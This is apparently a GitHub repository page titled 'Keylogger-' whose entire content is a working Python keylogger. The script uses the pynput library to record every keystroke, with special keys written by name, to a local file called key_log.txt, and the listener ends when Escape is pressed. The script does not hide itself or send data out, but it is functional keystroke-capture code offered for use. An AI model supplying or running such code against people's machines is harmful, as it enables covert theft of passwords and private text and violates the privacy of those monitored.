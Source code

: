 # Keylogger-

from pynput import keyboard 

# Define the log file
log_file = "key_log.txt"

# Function to log keystrokes
def on_press(key):
    try:
        # Write the key pressed to the file
        with open(log_file, "a") as f:
            # If the key is a character, print its value
            f.write(f"{key.char}")
    except AttributeError:
        # Special keys (e.g., space, enter, shift)
        with open(log_file, "a") as f:
            # Record special keys with their name
            f.write(f" [{key}] ")

# Function to stop the listener
def on_release(key):
    # Stop logging when the Escape key is pressed
    if key == keyboard.Key.esc:
        return False

# Listener setup
with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
